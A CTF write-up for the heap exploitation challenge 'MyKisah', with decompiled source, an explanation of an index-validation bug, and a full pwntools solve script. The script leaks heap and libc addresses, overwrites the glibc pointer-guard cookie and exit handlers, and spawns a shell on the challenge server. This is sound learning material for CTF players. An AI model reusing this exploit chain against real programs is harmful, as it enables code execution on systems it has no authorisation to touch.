







This is a National CTF Challenge, I only solved one because the baby is heap, easy is qemu escape 💀, medium and hard are windows pwn 🤮

# Pwn - MyKisah

## Introduction 


## Source Code

There is no source code, but this is the result of ChatGPT beautifying the code from the decompiler

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

typedef unsigned long long _QWORD;
typedef unsigned char _UNKNOWN;
typedef void (*__sighandler_t)(int);

void *alarms[MAX_SLOTS] = {0};
char titles[8 * MAX_SLOTS] = {0}; // 8 bytes per slot for waifu name
_QWORD used[MAX_SLOTS] = {0};

const char format[9]             = "\x1B[1;31m\n\n";
const char a133m_0[8]            = "\x1B[1;33m[";
const char a135m[8]              = "\x1B[1;35m\n";
const char a132m[8]              = "\x1B[1;32m[";
const char a135m_0[8]            = "\x1B[1;35m\n";
const char a131mAlamakHalu[49]   = "\x1B[1;31m[!] alamak, halunya dah dipake ato kosong ";
const char a132m_0[7]            = "\x1B[1;32m";
const char a135m_1[8]            = "\x1B[1;35m\n";
const char a132m_1[8]            = "\x1B[1;32m[";
const char a136m[8]              = "\x1B[1;36m\n";
const char a131mSlotKosong[48]   = "\x1B[1;31m[!] Slot kosong... hayoloh ngimpi kosong ";
const char a134m[7]              = "\x1B[1;34m";
const char asc_24C0[6]           = "      ";
const char a5BangunDariMim[22]   = " 5. Bangun dari mimpi ";

unsigned __int64 alarm_handler(int sig)
{
    (void)sig;
    printf(format);
    printf("\x1B[1;31mYou woke up... your waifu is gone...\n\n\x1B[0m");
    return 0;
}

ssize_t get_idx()
{
    char buf[16] = {0};
    ssize_t read_bytes = read(0, buf, 8u);
    if (!buf[0]) // LOBYTE(buf[0]) == 0
        return read_bytes;
    int idx = atoi(buf);
    if (idx >= MAX_SLOTS)
        exit(1);
    return idx;
}

unsigned __int64 setup_alarm(unsigned long long duration)
{
    struct sigaction act;
    printf(a133m_0, duration);
    sigemptyset(&act.sa_mask);
    act.sa_handler = alarm_handler;
    act.sa_flags = 0;
    sigaction(SIGALRM, &act, 0);
    alarm(duration);
    return 0;
}

unsigned __int64 create()
{
    printf(a135m);
    printf(" >> Pilih slot halu (0-%d): ", MAX_SLOTS-1);
    ssize_t idx = get_idx();
    if (idx < 0 || idx >= MAX_SLOTS)
        return 0;
    alarms[idx] = malloc(0x1E0u);
    unsigned long long halu_duration = 0, snooze_duration = 0;
    printf(" >> Durasi nge-halu (detik): ");
    scanf("%llu%*c", &halu_duration);
    *((unsigned long long *)alarms[idx]) = halu_duration;
    printf(" >> Snooze tambahan (detik): ");
    scanf("%llu%*c", &snooze_duration);
    *(((unsigned long long *)alarms[idx]) + 1) = snooze_duration;
    printf(" >> Nama waifu impianmu: ");
    read(0, &titles[8*idx], 8u);
    used[idx] = 0;
    printf(a132m, &titles[8*idx], halu_duration);
    return 0;
}

unsigned __int64 use()
{
    printf(a135m_0);
    printf(" >> Slot halu yang ingin dipakai: ");
    ssize_t idx = get_idx();

    if (idx < 0 || idx >= MAX_SLOTS)
        return 0;

    if (!used[idx] && alarms[idx]) {
        printf(a132m_0, &titles[8*idx]);
        setup_alarm(*((unsigned long long *)alarms[idx]));
        used[idx] = 1;
        free(alarms[idx]);
        alarms[idx] = NULL;
        printf("\x1B[1;31m[!] halu[%ld] berakhir...\n\x1B[0m", idx);
    } else {
        printf(a131mAlamakHalu);
    }
    return 0;
}

unsigned __int64 edit()
{
    printf(a135m_1);
    printf(" >> Slot halu: ");
    ssize_t idx = get_idx();

    if (idx < 0 || idx >= MAX_SLOTS)
        return 0;

    if (!used[idx] && alarms[idx]) {
        unsigned long long halu_duration = 0, snooze_duration = 0;
        printf(" >> Durasi baru: ");
        scanf("%llu%*c", &halu_duration);
        *((unsigned long long *)alarms[idx]) = halu_duration;
        printf(" >> Snooze baru: ");
        scanf("%llu%*c", &snooze_duration);
        *(((unsigned long long *)alarms[idx]) + 1) = snooze_duration;

        printf(" >> Ganti waifu ke: ");
        read(0, &titles[8*idx], 8u);
        printf(a132m_1, idx, &titles[8*idx], halu_duration);
    } else {
        printf("\x1B[1;31m[!] alamak, tak bole la... halu sudah dipake ato kosong\n\x1B[0m");
    }
    return 0;
}

unsigned __int64 check()
{
    printf(a136m);
    printf(" >> Slot halu: ");
    ssize_t idx = get_idx();

    if (idx < 0 || idx >= MAX_SLOTS)
        return 0;

    printf("\x1B[1;33m[*] Memeriksa slot[%lu]...\n\x1B[0m", (unsigned long)idx);

    if (alarms[idx])
        printf(a134m, &titles[8*idx], *((unsigned long long *)alarms[idx]));
    else
        printf(a131mSlotKosong);

    return 0;
}

int menu()
{
    unsigned int choice = 0;
    puts("\x1B[1;33m\n==============================");
    puts(asc_24C0);
    puts("==============================\x1B[0m");
    puts(" 1. Buat sesi nge-halu");
    puts(" 2. Masuki dunia halu");
    puts(" 3. Edit sesi halu");
    puts(" 4. Cek jadwal halu");
    puts(a5BangunDariMim);
    printf("\x1B[1;36m\n>> Pilihanmu: \x1B[0m");
    scanf("%u", &choice);
    getchar();
    return choice;
}

int main(int argc, const char **argv)
{
    (void)argc; (void)argv;
    setvbuf(stdout, 0, _IOLBF, 0);
    setvbuf(stdin, 0, _IOLBF, 0);

    printf("\x1B[1;35m\nSelamat datang di dunia halu, di mana waifumu menunggumu...\n\x1B[0m");

    while (1)
    {
        switch (menu())
        {
            case 1: create(); break;
            case 2: use(); break;
            case 3: edit(); break;
            case 4: check(); break;
            case 5:
                printf("\x1B[1;31m\nKamu memilih untuk bangun... sampai jumpa, waifu...\n\x1B[0m");
                exit(0);
            default:
                puts("\x1B[1;31m[!] Pilihan tidak valid, fokus napa!\n\x1B[0m");
                break;
        }
    }
}
```

## Summary

Use `get_idx` to allocate beyond idx and gain arbitrary write, then leak libc by overwriting header chunk and free it to unsorted bins. After that, overwrite tls cookie to 0 and `init` to `system` and binsh then call exit to get shell 

## Solution

Given a binary file called `MyKisah` with a `Dockerfile`, I first grabbed libc and ld to patch with pwninit. After patching, I ran it and was presented with a menu with five options.



1.	Buat sesi nge-halu will `malloc(0x1e0)` with chunk[0] = duration, chunk[1] = snooze, the title variable is the `title` variable, the chunk address is the `alarm` variable, and only 3 idx values can be entered.
2.	Masuki dunia halu will `free(chunk)` and set null in the `title` but not in the `alarm`.
3.	Edit sesi halu will ask the same input as option 1, but only change the `malloc` value.
4.	Cek jadwal halu will display the contents of the input.
5.	Bangun dari mimpi will call `exit`.
The vulnerability in this program lies in the request for the index input.

```c
ssize_t get_idx()
{
    char buf[16] = {0};
    ssize_t read_bytes = read(0, buf, 8u);
    if (!buf[0]) // VULN HERE
        return read_bytes;
    int idx = atoi(buf);
    if (idx >= MAX_SLOTS)
        exit(1);
    return idx;
}
```

When requesting the index, it checks whether the bottom byte contains a null byte. If so, it returns a `read` result with the length of the input. This way, we can allocate up to the length of the input, which is 8 chunks.

Next, we can see that the structure of the `title` and `alarm` only stores 4 chunks.



If we allocate `title` at idx 4, it will overwrite the idx 0 pointer, allowing us to perform arbitrary writes.

```python
def write(where, what):
    edit(4, -1, -1, p64(where))
    edit(0, what, -1, b"\x00")
    edit(4, -1, -1, p64(heap+0x2a0)) # original pointer address
```

Now we just need to leak the address. For the heap, simply allocate from the back and display idx 4.

```python
for i in reversed(range(9)):
    alloc(i, -1, -1, b"\x00")
show(4)
heap_leak = u64(ru(b" selama").ljust(8, b"\x00"))
heap = heap_leak & ~0xfff - 0x1000
```

To leak the libc address, we can create a pointer to the heap header and overwrite it to size 0x5d1. When we `free` it, it will go to the unsorted bins.

```python
write(heap+0x298, 0x5d1) # pointer chunk 0 - 0x8
free(0)
show(0)
ru(b"selama ")
libc_leak = int(ru(b" detik"))
libc.address = libc_leak - 0x21ace0
alloc(0, -1, -1, b"\x00") # Fix idx 0
```

Before writing:


After writing:


Now we just need to get `rip` to get a shell. I used a technique from [WWWW2Exec](https://github.com/nobodyisnobody/docs/blob/main/code.execution.on.last.libc/README.md#6---code-execution-via-other-mangled-pointers-in-initial-structure) that gets a shell by overwriting a mangled `exit`. To find the `init` address, simply break in ``exit and view the contents of `[rsi]`.



For the cookie, use the tls command in gef and view the `PTR_MANGLE cookie` and the overwritten location.



So, just overwrite tls cookie exit + 24 with system and the string to /bin/sh.

```python
write(cookie, 0)
write(initial+24, libc.sym['system']<<17)
write(initial+24 + 8, ns(libc, b"/bin/sh\0"))
```

After that, just select option 5 and get the shell.



### Solve Script

```python
#!/usr/bin/env python3
from subprocess import Popen
from pwncli import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './MyKisah_patched'
elf = context.binary = ELF(exe, checksec=True)
libc = elf.libc
context.log_level = 'info'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = "13.250.98.246", 40003

gdbscript = '''
init-gef
b *exit
c
'''.format(**locals())

def initialize(argv=[]):
    global pid
    if args.QEMU:
        if args.GDB:
            return process(["qemu-aarch64", "-g", "5000", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
        else:
            return process(["qemu-aarch64", "-L", "/usr/aarch64-linux-gnu", exe] + argv)
    elif args.DOCKER:
        p = remote("localhost", 1337)
        time.sleep(1)
        pid = process(["pgrep", "-fx", "./MyKisah"]).recvall().strip().decode()
        return p
    elif args.REMOTE:
        context.log_level = 'info'
        return remote(host, port, ssl=False)
    elif args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, aslr=False)
    else:
        return process([exe] + argv, aslr=False)

def debug():
    global gdbscript, pid
    if not args.REMOTE and not args.GDB:
        if args.QEMU:
            gdb_args = ["tmux", "splitw", "-h", "-p", "65", "gdb"]
            for cmd in [item for line in gdbscript.strip().splitlines() if (item := line.strip())]:
                gdb_args.extend(["-ex", cmd])
            Popen(gdb_args)
        elif args.DOCKER:
            gdbscript = f'''
            init-gef
            set sysroot /proc/{pid}/root
            c
            '''.format(**locals())        
            attach(int(pid), gdbscript=gdbscript, sysroot=f"/proc/{pid}/root", exe='MyKisah')
        else:
            attach(io, gdbscript=gdbscript)

s       = lambda data               :io.send(data)
sa      = lambda x, y               :io.sendafter(x, y)
sl      = lambda data               :io.sendline(data)
sla     = lambda x, y               :io.sendlineafter(x, y)
r       = lambda delims             :io.recv(delims)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
rl      = lambda                    :io.recvline()
uu32    = lambda data,num           :u32(io.recvuntil(data)[-num:].ljust(4,b'\x00'))
uu64    = lambda data,num           :u64(io.recvuntil(data)[-num:].ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{}: {:#x}'.format(name, addr))
l64     = lambda                    :u64(io.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda                    :u32(io.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
ns      = lambda p, data            :next(p.search(data))
nsa     = lambda p, instr           :next(p.search(asm(instr, arch=p.arch)))

# =========================================================
#                         EXPLOITS
# =========================================================
def menu(op):
    sla(": ", str(op).encode())

def alloc(idx, time, snooze, waifu):
    menu(1)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)
    menu(time)
    menu(snooze)
    sa(": ", waifu)

def free(idx):
    menu(2)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)

def edit(idx, time, snooze, waifu):
    menu(3)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)
    menu(time)
    menu(snooze)
    sa(": ", waifu)

def show(idx):
    menu(4)
    if idx > 3:
        sa(": ", b"\x00"*idx)
    else:
        menu(idx)
    ru("Bersama ")

def write(where, what):
    edit(4, -1, -1, p64(where))
    edit(0, what, -1, b"\x00")
    edit(4, -1, -1, p64(heap+0x2a0)) # original pointer address

def where(addr):
    edit(4, -1, -1, p64(addr))
    show(0)
    ru(b"selama ")
    addr = int(ru(b" detik"))
    edit(4, -1, -1, p64(heap+0x2a0))
    return addr

def exploit():
    global io, heap
    io = initialize()
    with log.progress("Allocate alot of chunk"), context.silent:
        for i in reversed(range(9)):
            alloc(i, -1, -1, b"\x00")
        show(4)
        heap_leak = u64(ru(b" selama").ljust(8, b"\x00"))
        heap = heap_leak & ~0xfff - 0x1000
    leak("Heap leak", heap_leak)
    leak("Heap address", heap)
    with log.progress("Overwrite the first chunk header and get unsorted bins"):
        write(heap+0x298, 0x5d1) # pointer chunk 0 - 0x8
        free(0)
        show(0)
        ru(b"selama ")
        libc_leak = int(ru(b" detik"))
        libc.address = libc_leak - 0x21ace0
        alloc(0, -1, -1, b"\x00") # Fix idx 0
        if args.DOCKER or args.REMOTE:
            tls = libc.address - 0x3000
        else:
            tls = libc.address + 0x30f000
        cookie = tls + 0x770
        initial = libc.address + 0x21bf00
    leak("Libc leak", libc_leak)
    leak("Libc base address", libc.address)
    leak("TLS address", tls)
    leak("Cookie address", cookie)
    leak("Initial address", initial)
    with log.progress("Overwrite cookie and initial address to hijack exit"):
        write(cookie, 0)
        write(initial+24, libc.sym['system']<<17)
        write(initial+24 + 8, ns(libc, b"/bin/sh\0"))
    # debug()
    menu(5)
    io.interactive()

if __name__ == '__main__':
    exploit()
```

### Flag

`ITSEC{Rintaro-kun_watashi_wa_Waguri_Kauruko_desu,_soshite_anata_wa_Tsumigi_Rintaro_desu}`